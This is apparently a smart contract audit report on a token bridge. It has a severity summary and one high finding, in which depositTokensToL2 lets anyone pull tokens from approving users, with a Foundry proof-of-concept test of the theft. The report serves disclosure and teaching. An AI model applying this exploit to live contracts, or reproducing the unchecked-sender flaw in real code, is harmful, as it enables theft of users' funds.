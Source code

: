 # Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 1                      |
| Low      | 1                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 6                      |

# Findings

## High 

### [H-1] Anyone can move users' tokens that approved the bridge

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```
